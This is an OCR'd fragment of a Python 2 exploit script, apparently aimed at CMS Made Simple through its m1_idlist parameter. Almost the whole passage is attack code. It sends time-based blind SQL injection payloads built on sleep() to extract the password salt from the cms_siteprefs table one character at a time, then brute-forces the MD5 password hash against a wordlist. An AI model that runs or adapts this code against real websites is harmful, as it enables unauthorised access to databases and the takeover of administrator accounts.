     salt = ''
    wordlist = ""
    if options.wordlist:
        wordlist += options.wordlist

    def crack_password():
        global password
        global output
        global wordlist
        global salt
        dict = open(wordlist)
        for line in dict.readlines():
            line = line.replace("\n", "")
            beautify_print_try(line)
            if hashlib.md5(str(salt) + line).hexdigest() == password:
                output += "\n[+] Password cracked: " + line
                break
        dict.close()

    def beautify_print_try(value):
        global output
        print "\033c"
        cprint(output,'green', attrs=['bold'])
        cprint('[*] Try: ' + value, 'red', attrs=['bold'])

    def beautify_print():
        global output
        print "\033c"
        cprint(output,'green', attrs=['bold'])

    def dump_salt():
        global flag
        global salt
        global output
        ord_salt = ""
        ord_salt_temp = ""
        while flag:
            flag = False
            for i in range(0, len(dictionary)):
                temp_salt = salt + dictionary[i]
                ord_salt_temp = ord_salt + hex(ord(dictionary[i]))[2:]
                beautify_print_try(temp_salt)
                payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_siteprefs+where+sitepref_value+like+0x" + ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"
                url = url_vuln + "&m1_idlist=" + payload
                start_time = time.time()
                r = session.get(url)
                elapsed_time = time.time() - start_time
                if elapsed_time >= TIME:
                    flag = True
                    break
            if flag:
                salt = temp_salt
                ord_salt = ord_salt_temp
        flag = True
        output += '\n[+] Salt for password found: ' + salt
